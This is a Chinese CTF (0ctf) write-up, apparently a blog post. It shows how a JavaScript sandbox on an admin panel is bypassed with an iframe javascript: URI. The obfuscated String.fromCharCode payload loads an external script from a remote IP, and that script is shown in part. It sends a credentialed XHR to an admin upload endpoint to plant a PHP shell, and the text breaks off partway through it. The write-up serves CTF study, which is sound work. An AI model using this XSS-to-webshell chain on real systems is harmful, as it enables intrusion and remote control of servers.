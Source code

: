 ![0ctf](http://momomoxiaoxi.com/img/post/0ctf/0ctf.png)

发现iframe的伪协议可以绕过，调用被禁用的函数。（还没搞懂为啥可以绕过，有知道的，求解答一波～）

然后，就想着通过iframe的伪协议调用一个外部的js，外部的js执行上传shell的操作。

本地测试一波

```html
<!doctype html>
<head>
<title>Admin Panel</title>
<script>
//sandbox
delete window.Function;
delete window.eval;
delete window.alert;
delete window.XMLHttpRequest;
delete window.Proxy;
delete window.Image;
delete window.postMessage;
</script>
</head>

<h1>Hello <iframe src='javascript:eval(String.fromCharCode(118, 97, 114, 32, 115, 115, 115, 61, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 34, 115, 99, 114, 105, 112, 116, 34, 41, 59, 115, 115, 115, 46, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 49, 48, 54, 46, 49, 52, 46, 54, 49, 46, 49, 56, 53, 47, 102, 105, 108, 101, 115, 47, 120, 115, 115, 46, 106, 115, 34, 59, 100, 111, 99, 117, 109, 101, 110, 116, 46, 98, 111, 100, 121, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 115, 115, 115, 41, 59))'></iframe></h1>


<p>Upload your shell</p>
<form action="/upload" method="post" enctype="multipart/form-data">
<p><input type="file" name="file"></input></p>
<p><input type="submit" value="upload">
</form>
```

```js
String.fromCharCode(118, 97, 114, 32, 115, 115, 115, 61, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 34, 115, 99, 114, 105, 112, 116, 34, 41, 59, 115, 115, 115, 46, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 49, 48, 54, 46, 49, 52, 46, 54, 49, 46, 49, 56, 53, 47, 102, 105, 108, 101, 115, 47, 120, 115, 115, 46, 106, 115, 34, 59, 100, 111, 99, 117, 109, 101, 110, 116, 46, 98, 111, 100, 121, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 115, 115, 115, 41, 59)
var sss=document.createElement("script");sss.src="http://106.14.61.185/files/xss.js";document.body.appendChild(sss);
```

xss.js就是实现一个上传逻辑

```js
function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http://admin.government.vip:8000/upload", true);
        xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------32762167253918");
        xhr.withCredentials = true;
        var body = "-----------------------------32762167253918\r\n" +
          "Content-Disposition: form-data; name=\"file\"; filename=\"1.php\"\r\n" +
          "Content-Type: application/octet-stream\r\n" +
```